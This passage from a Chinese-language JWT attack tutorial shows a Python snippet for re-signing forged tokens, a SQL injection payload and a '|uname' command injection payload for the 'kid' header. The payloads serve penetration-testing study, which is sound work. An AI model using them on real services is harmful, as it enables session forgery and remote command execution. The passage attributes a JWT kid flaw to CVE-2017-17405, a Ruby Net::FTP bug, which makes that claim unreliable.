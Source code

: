 ```python
new_sign = hmac.new(secret,changed_data.encode('utf-8'),hashlib.sha256).digest()

new_sign = base64.urlsafe_b64encode(new_sign).decode('utf-8').rstrip('=')

print(changed_data + '.' + new_sign)
```

### 利用kid实现sql注入

原理是一样的，将kid使用

```
random-string ' UNION SELECT 'secret
```

然后生成签名时，使用`secret` 来生成。原理其实是和读取文件伪造身份是一样的。脚本也可以参考刚那个脚本

### 利用kid实现rce

例如CVE-2017-17405，是 Ruby library Net::FTP下的一个漏洞，会读取header下的kid的key-value，并且该过程发生在校验签名前。所以无需有效签名，即可实现任意文件读取&任意命令执行

关键函数调用有：

```
File.open(....)
```

```
open(....)
```

直接jwt.io解jwt，然后把header部分增加kid和对应的执行命令，例如：

```json
{



"typ": "JWT",



"alg": "HS256",



"kid": "|uname"



}
```

则会立刻执行对应命令

## Reference

- Pentesterlab 「推荐」 建议若能赶上黑五尾巴赶紧入一个pro
  
- https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/.